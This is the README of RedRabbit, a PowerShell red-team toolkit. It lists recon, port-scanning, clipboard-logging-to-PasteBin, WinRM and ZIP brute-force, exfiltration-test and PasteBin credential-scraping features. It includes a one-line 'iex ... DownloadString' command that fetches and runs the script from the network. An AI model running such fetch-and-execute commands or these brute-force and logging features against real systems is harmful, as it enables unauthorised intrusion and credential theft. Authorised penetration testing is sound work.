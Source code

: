 # RedRabbit

![psbrutezip](https://ctrla1tdel.files.wordpress.com/2020/02/redrabbit.jpg)

RedRabbit is a PowerShell script aimed at helping pentesters conduct ethical hacking #RedTeam

<b> To Run: </b>

You can either run locally by downloading the script or run remotely using: 

powershell –nop –c “iex(New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/securethelogs/RedRabbit/master/redrabbit.ps1’)”


<b> Help </b>

Option 1: Quick Recon
-	Lists User
-	Lists Host
-	Lists Network Interfaces
-	Lists User Groups (inc domain)
-	Shows Privilege
-	Lists Local Admins
-	Lists Local Users
-	Lists Current Logged in Users
-	Shows Installed Programs
-	Tests If Internet Is Reachable
-	Shows Local Firewall Rules 

Option 2: Scan Subnet
This option will find the current subnet in which the machine is connected to and perform the following: 
-	Scan for Live Hosts
-	Resolve DNS for Live Hosts
-	Scan for Open Ports on Live Hosts

Option 3: Clipboard Logger
This is my PSClippy scripts which creates a PowerShell session in the background. This session will record, and values copied to clipboard and store them. Once a threshold of 10 is met, it will either store to file or upload to PasteBin. 

Option 4: Network Scanner
This is a simple network scanner which will allow you to either scan:
-	Common Ports
-	Full Scan (Ports 1-65535)
-	Quick Scan (Ports 1-65535 but less wait time as above option)

 Option 5: DNS Resolver 
This will allow you to resolve an IP to either a single IP address or multiple, using a txt file. 

Option 6: Brute Force ZIP
This option will allow you to brute force a ZIP file using a wordlist.

Option 7: Brute WinRM
This option will scan and allow you to brute force credentials using the WinRM service. For this to work, you need:
-	A machine running the WinRM service (Port open)
-	A user list
-	A password list

Option 8: Test Extraction Connection
Given your method of choice, this will test if the machine can reach your destination on common ports (80,443,445).

Option 9: Show Local Firewall Deny Rules
This option will display the local firewall rules which have a deny action and format them in a handy table. 

OSINT Options

Option A: Find Subdomains
This option will allow you to search the internet for subdomains. 

Option B: Daily PasteBin
This option will pull the recent pastes and search them for key words. The script will then display each and highlight any juicy values such as passwords or API keys. 

Option C: Scan Azure Resource
This option will allow you to hunt for reachable Azure resource based on a wordlist provided.

Option D: Scan Socials for Usernames
This will scan a few social media sites for a matching username. 


